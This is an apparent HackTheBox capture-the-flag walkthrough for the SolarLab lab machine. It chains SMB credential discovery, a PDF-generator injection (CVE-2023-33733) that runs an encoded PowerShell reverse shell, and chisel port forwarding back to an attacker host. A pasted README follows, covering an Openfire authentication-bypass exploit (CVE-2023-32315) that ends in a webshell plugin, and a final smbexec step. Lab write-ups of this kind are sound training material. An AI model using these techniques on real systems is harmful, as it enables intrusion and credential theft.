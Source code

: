 
# 🌞 HackTheBox - SolarLab 

This is a walkthrough of the HTB machine **SolarLab**, where I gained root access by chaining multiple vulnerabilities and using port forwarding techniques. The machine offered a good mix of enumeration, exploitation via known CVEs, and privilege escalation through misconfigured services.

---

## 🛰 Initial Enumeration

I started with a standard Nmap scan:

```bash
nmap -sC -sV -oA scan 10.10.11.XXX

The most interesting open ports were:

80 (HTTP)

445 (SMB)

## 📁 SMB Enumeration

Using smbclient, I accessed the share Documents:

smbclient //10.10.11.XXX/Documents

Inside, I found a file called details-file.xlsx that contained user information: usernames, passwords, and emails.

## Web Enumeration

The website on port 80 had no useful functionality, so I scanned again with all ports:

nmap -p- 10.10.11.XXX

I found port 6791 open, hosting a login panel. Using BurpSuite’s Cluster Bomb, I tried credential stuffing. No valid logins were found initially.

Upon inspecting the usernames again, I noticed Blake Byte, whose username format was different (Blake.Byte), so I tested BlakeB with all known passwords.

✅ A password worked, and I logged into the application as BlakeB.

## 📄 PDF Generation Exploit (CVE-2023–33733)
The app had a “Travel Approval” form that generated a PDF. I intercepted the request using BurpSuite, and in the travel_request parameter, I injected a base64-encoded PowerShell reverse shell:

import os
os.system("powershell -enc <Base64EncodedPayload>")
With a Netcat listener:

nc -lvnp 4444
✅ I got a reverse shell as blake.

## 🔁 Port Forwarding Openfire (Port 9090)
While exploring, I noticed a user named openfire. I confirmed with netstat that ports 9090/9091 were listening internally.

To access them, I uploaded chisel.exe to the Windows machine and forwarded the port:

# Attacker (Kali)
./chisel server -p 9001 --reverse

# Victim (Windows)
chisel.exe client <attacker-ip>:9001 R:9090:127.0.0.1:9090
Navigating to http://127.0.0.1:9090 gave me the Openfire login panel, showing version 4.7.4.

## 🔓 Openfire Exploit (CVE-2023–32315)
I found a GitHub repo detailing CVE-2023–32315. It included a Python script that extracted credentials from the vulnerable version.

# CVE-2023-32315
Openfire Console Authentication Bypass Vulnerability with RCE plugin

## Setup
```
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
```
## Usage
```
python3 CVE-2023-32315.py -t http://127.0.0.1:9090
python3 CVE-2023-32315.py -l lists.txt
```
### Step
1. Run exploit
2. login with newly added user
3. goto tab plugin > upload plugin `openfire-management-tool-plugin.jar`
4. goto tab server > server settings > Management tool
5. Access websehll with password "123"
## Vulnerable Openfire Docker
```
docker pull nasqueron/openfire:4.7.1
sudo docker run --name openfire -d --restart=always --publish 9090:9090 --publish 5222:5222 --publish 7777:7777 --volume /srv/do>```
## Reference
- https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass
- https://github.com/5rGJ5aCh5oCq5YW9/CVE-2023-32315exp

Running the exploit gave me openfire login credentials.

After logging in, I went to the Plugins page and uploaded the malicious plugin (.jar) provided in the same repo.

The plugin named "Management Tool" appeared with a default password: 123.

Using it, I accessed a command execution interface.

I tested with:

whoami
And confirmed code execution.

Using the same PowerShell reverse shell payload, I got a shell as the openfire user.

## 🔐 Privilege Escalation to Administrator
From the openfire shell, I found a directory named embedded-db which hinted at further privileges.

Using smbexec.py, I logged in as administrator:

smbexec.py openfire@10.10.11.XXX
But command execution was restricted. So I reused the PowerShell reverse shell for the third time.

✅ This time, I got a reverse shell as Administrator.

## 🏁 Summarry
Stage	Access Achieved
SMB	Usernames + passwords
Web App (6791)	Login as BlakeB
CVE-2023–33733	Reverse shell as blake
Port Forwarding	Openfire panel (9090)
CVE-2023–32315	Shell as openfire
Reuse reverse shell	Shell as Administrator

## Thanks for reading! ��
This machine combined enumeration, CVEs, and lateral movement in a satisfying way.



